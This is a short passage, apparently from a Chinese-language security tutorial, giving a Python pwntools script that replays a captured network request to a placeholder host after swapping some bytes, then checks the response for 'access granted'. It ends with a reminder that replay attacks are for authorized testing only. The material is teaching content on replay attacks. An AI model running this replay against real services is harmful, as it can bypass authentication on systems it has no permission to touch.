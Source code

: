 ### 使用pwntools进行高级利用

```python
from pwn import *

# Set up logging
context.log_level = 'debug'

# Connect to target
r = remote('target.example.com', 80)

# Read captured request from file
with open('captured_request.bin', 'rb') as f:
    captured_data = f.read()

# Modify specific bytes if needed
modified_data = captured_data.replace(b'old_value', b'new_value')

# Send the modified request
r.send(modified_data)

# Receive and analyze response
response = r.recvall(timeout=5)
log.success(f"Received {len(response)} bytes")

# Look for success indicators
if b'access granted' in response.lower():
    log.success("Replay attack successful!")
else:
    log.failure("Replay attack failed")
```

请记住，所有重放攻击活动必须仅在具有适当权限的授权环境中执行。这些技术仅用于安全评估和防御改进目的。